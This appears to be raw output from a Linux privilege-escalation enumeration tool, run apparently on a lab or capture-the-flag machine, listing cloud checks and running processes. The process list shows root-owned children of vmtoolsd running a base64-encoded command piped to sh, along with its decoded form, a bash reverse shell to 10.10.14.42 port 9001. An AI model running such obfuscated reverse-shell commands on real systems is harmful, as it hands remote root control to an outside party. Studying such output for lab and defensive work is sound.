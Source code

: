 

                                     ╔═══════╗
═════════════════════════════════════╣ Cloud ╠═════════════════════════════════════
                                     ╚═══════╝
═╣ GCP Virtual Machine? ................. No
═╣ GCP Cloud Funtion? ................... No
═╣ AWS ECS? ............................. No
═╣ AWS EC2? ............................. No
═╣ AWS EC2 Beanstalk? ................... No
═╣ AWS Lambda? .......................... No
═╣ AWS Codebuild? ....................... No
═╣ DO Droplet? .......................... No
═╣ Aliyun ECS? .......................... No
═╣ Tencent CVM? .......................... 
═╣ IBM Cloud VM? ........................ No
═╣ Azure VM? ............................ No
═╣ Azure APP? ........................... No



                ╔════════════════════════════════════════════════╗
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════
                ╚════════════════════════════════════════════════╝
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
root         1  0.0  0.2 160072  9244 ?        Ss   Jun10   1:02 /sbin/init maybe-ubiquity
root       708  0.0  0.4 127732 17060 ?        S<s  Jun10   0:01 /lib/systemd/systemd-journald
root       736  0.0  0.0  97712  1896 ?        Ss   Jun10   0:00 /sbin/lvmetad -f
root       737  0.0  0.1  48376  7192 ?        Ss   Jun10   0:01 /lib/systemd/systemd-udevd
systemd+   791  0.0  0.0 141788  3012 ?        Ssl  Jun10   0:01 /lib/systemd/systemd-timesyncd
  └─(Caps) 0x0000000002000000=cap_sys_time
systemd+   792  0.0  0.1  70496  5104 ?        Ss   Jun10   0:00 /lib/systemd/systemd-resolved
root       928  0.0  0.2  89868 10000 ?        Ss   Jun10   0:00 /usr/bin/VGAuthService
root       929  0.0  0.1 225932  7792 ?        S<sl Jun10   5:05 /usr/bin/vmtoolsd
root     22081  0.0  0.0 225748  2728 ?        S<   Jun11   0:00  _ /usr/bin/vmtoolsd
root     22082  0.0  0.0   4636   884 ?        S<   Jun11   0:00  |   _ /bin/sh -c echo L2Jpbi9iYXNoIC1jICIuIH4vLnByb2ZpbGU7IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDIvOTAwMSAwPiYxIg== | base64 -d | sh
root     22085  0.0  0.0   4636   868 ?        S<   Jun11   0:00  |       _ sh
root     22086  0.0  0.0  11600  3160 ?        S<   Jun11   0:00  |           _ /bin/bash -c . ~/.profile; bash -i >& /dev/tcp/10.10.14.42/9001 0>&1
root     22088  0.0  0.0  20188  3972 ?        S<   Jun11   0:00  |               _ bash -i
root     23007  0.0  0.0 225932  3008 ?        S<   Jun12   0:00  _ /usr/bin/vmtoolsd
root     23008  0.0  0.0   4636   812 ?        S<   Jun12   0:00      _ /bin/sh -c echo L2Jpbi9iYXNoIC1jICIuIH4vLnByb2ZpbGU7IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDIvOTAwMSAwPiYxIg== | base64 -d | sh
root     23011  0.0  0.0   4636   888 ?        S<   Jun12   0:00          _ sh
root     23012  0.0  0.0  11600  3296 ?        S<   Jun12   0:00              _ /bin/bash -c . ~/.profile; bash -i >& /dev/tcp/10.10.14.42/9001 0>&1
root     23014  0.0  0.0  20188  3960 ?        S<   Jun12   0:00                  _ bash -i
root      1270  0.0  0.1  70548  6000 ?        Ss   Jun10   0:00 /lib/systemd/systemd-logind
root      1271  0.0  0.0  30032  3260 ?        Ss   Jun10   0:00 /usr/sbin/cron -f
root      1272  0.0  0.0 110552  2112 ?        Ssl  Jun10   0:11 /usr/sbin/irqbalance --foreground
root      1273  0.0  0.1 286256  6928 ?        Ssl  Jun10   0:05 /usr/lib/accountsservice/accounts-daemon[0m
aepike    1276  0.0  7.2 5542888 290888 ?      Ssl  Jun10   6:46 /opt/java/jre/bin/java -Djava.util.logging.config.file=/opt/tomcat6/apache-tomcat-6.0.53/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Dfile.encoding=UTF-8 -Dnet.sf.ehcache.skipUpdateCheck=true -XX:+UseConcMarkSweepGC -XX:+CMSClassUnloadingEnabled -XX:+UseParNewGC -Xms2g -Xmx4g -Djdk.tls.ephemeralDHKeySize=2048 -Djava.endorsed.dirs=/opt/tomcat6/apache-tomcat-6.0.53/endorsed -classpath /opt/tomcat6/apache-tomcat-6.0.53/bin/bootstrap.jar -Dcatalina.base=/opt/tomcat6/apache-tomcat-6.0.53 -Dcatalina.home=/opt/tomcat6/apache-tomcat-6.0.53 -Djava.io.tmpdir=/opt/tomcat6/apache-tomcat-6.0.53/temp org.apache.catalina.startup.Bootstrap start
aepike   24225  0.0  0.0  15104  1160 ?        S    Jun14   0:16  _ ping 10.10.14.39
